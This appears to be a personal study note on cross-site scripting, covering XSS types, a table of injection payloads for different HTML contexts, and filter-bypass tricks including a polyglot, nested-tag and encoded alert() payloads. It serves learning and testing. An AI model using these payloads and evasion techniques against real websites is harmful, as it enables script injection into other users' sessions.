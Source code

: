 # Cross-site Scripting (XSS)

[Go back](../../index.md)

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![xss_injection](../../../../_badges/poat/xss_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
[![xss_filter_evasion](../../../../_badges/owasp/xss_filter_evasion.svg)](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
[![dom_based_xss_prevention](../../../../_badges/owasp/dom_based_xss_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called XSS, refers to injecting malicious JavaScript in a web application for it to be executed by other users. For instance, instead of a username, you could use:

```xml!
<script>alert('XSS')</script>
```

And, if the website isn't protected, then anyone consulting your profile will run the script `alert('XSS')` and will see an alert.
</div><div>

There are 4 categories of XSS.

* [Reflected XSS]()
* [Stored XSS]()
* [DOM-Based XSS]()
* [Blind XSS]()
</div></div>

<hr class="sep-both">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>PoC</td><td><code>&lt;p&gt;here&lt;/p&gt;</code></td><td><code>&lt;script&gt;alert('XSS')&lt;/script&gt;</code></td></tr>

<tr><td>PoC</td><td><code>&lt;p&gt;here&lt;/p&gt;</code></td><td><code>&lt;script&gt;console.log('XSS')&lt;/script&gt;</code></td></tr>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>
</tbody></table>

<hr class="sep-both">

## XSS filter by-pass

<div class="row row-cols-md-2"><div>

There are usually a lot done to avoid XSS attacks, but there is also a lot of way to by-pass weak filters.

* **Logic flaw**: for instance, a dropdown with a list of countries. A user use XSS. The developer didn't filter the value as they expected a value within the list.

* **Bypass HTML symbols filtering**: If `<`, and `>` are filtered, an attacker may still use DOM Based XSS.

* **Bypass DOM Based Filtering**: if there is a filter removing every attribute such as `onload`, `onmouseover`... they could try variants as HTML is case-insensitive.

```xml!
<img src="" ONERROR="alert('XSS')" />
```

* **Polygots**: these are magic payloads designed to bypass many tags/attributes/filters/... at once.

```js!
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

</div><div>

**Bypass keywords filtering**: most functions to filter something will only process the text once. It means that if the hacker knows that something is filtered, they may create a payload that is only working after being filtered. For instance, for a filter removing "&lt;script&gt;", below after filtering "&lt;s" and "cript&gt;" will be concatenated, effectively bypassing the filter.

```html!
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

You can also try variants if the filter is case-sensitive

```html!
<scIpT>alert('XSS');</scIpT>
```

Another way of bypassing keyword filtering is using alternate code. For instance, with the function `alert`, we could do.

```html!
<img src="NOT_FOUND" onerror="eval('aler'+'t')('XSS')">
<!-- unicode in HTML with &# -->
<img src="NOT_FOUND" onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;('XSS')>
<!-- unicode with \u -->
<img src="NOT_FOUND" onerror=\u0061lert('XSS')>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

* Place to check: forms, headers
</div><div>
</div></div>